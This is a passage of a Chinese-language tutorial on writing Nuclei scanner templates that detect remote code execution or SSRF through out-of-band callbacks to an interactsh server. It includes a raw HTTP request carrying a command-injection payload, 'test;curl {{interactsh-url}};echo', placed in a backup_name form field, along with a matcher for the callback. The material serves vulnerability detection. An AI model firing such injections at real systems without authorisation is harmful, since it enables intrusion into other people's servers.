 ```yaml
          - "contains(body_5,'downloadbackup.php?f=dbbackup-')"
        condition: and

```

### 带外交互

测试应用程序中的远程代码执行（RCE）或服务端请求伪造（SSRF）漏洞的一种可靠方法是使用带外交互的payload。本质上，这意味着诱使应用程序后端连接到我们可以监控的外部服务。各种工具常用的交互方式是进行DNS查询或向安全研究人员可以访问日志功能的主机发起HTTP请求。

ProjectDiscovery的interactsh工具就是为此目的而设计的。为了演示如何在Nuclei模板中使用它，我们可以修改最后一个请求，将interactsh URL作为命令注入payload的一部分注入，并使用一个匹配器来检查交互。

模板中的第五个原始HTTP请求将更改为以下内容：

```yaml
    - |
      POST {{Path}}/backup_db.php HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/x-www-form-urlencoded
      
 backup_name=test%3Bcurl+{{interactsh-url}}%3Becho+&submit=Create+Backup&csrftoken={{csrftoken}}
```

经过URL解码后，注入到漏洞参数的payload是：

```yaml
test;curl {{interactsh-url}};echo
```

这会生成一个interactsh URL，比如`vyxlk2172l7dqfhn58gvy5362x8nwc.oast.fun` ，并在发送到服务器之前将其插入到请求中。

匹配器将更改为以下内容：

```yaml
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction
        words:
          - "http"
```

这个匹配器会查询`interactsh`服务器，并检查它是否收到了来自脆弱目标的HTTP请求，除了HTTP交互，我们也可以使用DNS或SMTP。有关使用带外交互的更多详细信息，请参阅[模板指南](https://nuclei.projectdiscovery.io/templating-guide/interactsh/?ref=blog.projectdiscovery.io)。

以下是一个Nuclei检测`interactsh`的示例输出：

![](../../img/capture20220617172011.png)
